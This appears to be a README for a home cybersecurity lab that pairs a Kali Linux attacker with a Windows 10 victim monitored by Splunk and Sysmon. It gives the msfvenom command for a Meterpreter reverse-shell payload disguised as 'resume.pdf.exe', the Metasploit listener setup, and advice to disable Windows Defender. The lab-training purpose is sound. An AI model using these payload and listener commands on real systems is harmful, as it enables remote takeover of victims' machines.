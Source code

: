 # 🖥️ Cybersecurity Home Lab: Detection attacks using Splunk 🌌

## Introduction

1. Step 1: Creating Virtual Machines
2. Step 2: Setting Up Splunk for Log Tracking
3. Step 3: Adding Sysmon to Windows 10
4. Step 4: Crafting Malware with msfvenom
5. Step 5: Configuring a Metasploit Listener
6. Step 6: Analyzing Logs in Splunk
7. Fixing Issues
8. Future Ideas
Contributing
Wrap-Up

## 📝 Introduction
This project guides you through building a home lab to practice cybersecurity skills. It includes an attacking system (Kali Linux), a victim system (Windows 10 virtual machine), and a log-monitoring tool (Splunk) to observe and analyze malicious actions. You’ll set up virtual environments, configure logging with Sysmon, create malware using msfvenom, and track the results in Splunk.

## 🛠️ What You’ll Need
| Requirement                  | Description                                      |
|------------------------------|--------------------------------------------------|
| **RAM**                      | At least **16GB** (to run multiple VMs)         |
| **Virtualization Software**  | VMware Workstation or VirtualBox                |
| **Operating Systems**        | ISO files for Windows 10 and Kali Linux         |
| **Logging Tools**            | Splunk and Sysmon setup files                   |
| **Internet Connection**      | Required for downloading and configuring tools  |


## 🌐 Network Layout
Here’s a basic diagram of how the systems connect:

```
   [Kali Linux (Attacker - 192.168.20.11)]  --->  [Windows 10 VM (Defender - 192.168.20.10)]  --->  [Splunk (Log Monitoring)]
```
Kali launches an attack on the Windows VM, and Splunk captures the logs for review.

## Step 1: Creating Virtual Machines
### 1.1 Kali Linux (Attacker Setup)
Grab the Kali Linux ISO from Kali’s site.
Set up a new VM in your virtualization software and install Kali.
Update the system:
```
sudo apt update && sudo apt upgrade -y
```

### 1.2 Windows 10 (Victim Setup)
Download the Windows 10 ISO from Microsoft.
Create a VM and install Windows 10.
Make sure the VMs can communicate over the network.

> **Note:** The following link is for a more in-depth explanation on how to download and configure both VM's and the VM software: https://github.com/GeorgeOrt708/How-to-create-an-Attack-and-Defense-Cyber-Security-Lab

## Step 2: Setting Up Splunk for Log Tracking
Get Splunk Free from Splunk’s site.
Install it on your Windows 10 VM.
Launch Splunk, log in as admin, and turn on log collection.
## Step 3: Adding Sysmon to Windows 10
Download Sysmon from Microsoft Sysinternals.
Get a sample sysmonconfig.xml from Sysmon Modular.
Open PowerShell (Admin) and run:

```
cd "C:\Users\Downloads\sysmon"
.\sysmon64.exe -i sysmonconfig.xml
```
Check if Sysmon is active:

```
Get-Process sysmon64
```
## Step 4: Crafting Malware with msfvenom
On Kali, create a malicious file:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_Attacker_IP> LPORT=4444 -f exe -o resume.pdf.exe
```
This generates resume.pdf.exe, a disguised payload.
## Step 5: Configuring a Metasploit Listener
Start Metasploit on Kali:
```
msfconsole
```
Set up the listener:
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <Your_Attacker_IP>
set LPORT 4444
exploit
```
Run resume.pdf.exe on the Windows VM.
If it works, you’ll get a Meterpreter session:
```
meterpreter > sysinfo
```

## Step 6: Analyzing Logs in Splunk
In Splunk, search for suspicious activity:
```
index=main sourcetype=WinEventLog:Security
```
Look for signs of unauthorized access.
Set up alerts for unusual events.

## 🛡️ Fixing Issues
1. Metasploit Not Connecting
Turn off Windows Defender to avoid payload blocking.
Verify LHOST and LPORT match in msfvenom and Metasploit.
Run the payload with admin rights on Windows.
2. Splunk Missing Logs
Confirm Sysmon is installed and running.
Check that Splunk is set to collect Windows logs.
Restart Splunk and test the event index.


## 🎉 Conclusion
This project shows you how to:

Build a home cybersecurity lab
Launch and spot malware
Use Splunk to watch for threats

> **Note:** These tools should only be used for educational purposes. Don’t misuse these skills!
